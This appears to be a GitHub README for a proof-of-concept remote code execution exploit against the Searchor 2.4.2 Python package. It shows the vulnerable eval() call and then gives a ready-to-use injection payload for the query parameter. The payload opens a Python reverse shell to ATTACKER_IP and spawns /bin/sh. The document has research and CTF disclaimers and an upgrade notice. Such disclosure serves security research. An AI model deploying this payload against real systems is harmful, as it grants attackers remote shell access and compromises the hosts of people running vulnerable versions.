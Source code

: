 # POC-Searchor-2.4.2
eval() Exploit POC for Searchor 2.4.2 and lower

vulnerability Reference: https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b

* This is displayed for research purposes only and found during CTF

Vulnerable code includes eval() methods as here

```python
url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
```

If user parameter `query` is not sanitized it leads to RCE.

* Exploit code for linux target

```
#send this as query parameter

', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

```

## DISCLAIMER

* this is posted for research purpose only
* use the newest Searcher version to be safe: https:/I/github.com/ArjunSharda/Searchor
* using this against other web sites is subject to criminal punishment!
